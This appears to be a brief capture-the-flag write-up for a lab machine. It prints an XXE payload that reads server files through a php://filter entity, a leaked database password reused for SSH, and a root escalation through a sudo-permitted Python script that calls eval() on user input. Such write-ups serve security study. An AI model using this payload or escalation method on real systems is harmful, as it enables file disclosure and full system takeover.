 ## Info
### Credential
 User      | Password           | Service | Note
-----------|--------------------|---------|------
development|m19RoAU0hP41A1sTsq6K|         |


##### User
1. Found `/log_submit.php` will send XML to `/tracker_diRbPr00f314.php`. So I followed the guide on Hacktricks to read the file `./tracker_diRbPr00f314.php`.
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE foo [<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=./tracker_diRbPr00f314.php"> ]>
		<bugreport>
		<title>aa</title>
		<cwe>aa</cwe>
		<cvss>aa</cvss>
		<reward>aa</reward>
		</bugreport>
```
2. Read `db.php`, which is found by `gobuster`, and get the user credential which is belonged to `development`.
```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```
3. Login via SSH and get the user flag.
### Root
1. The user can run `sudo`.
```
$ sudo -l
...
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
2. `ticketValidator.py` will call `eval()` with the user controlled input, so construct the file `ticket.md` to get root.

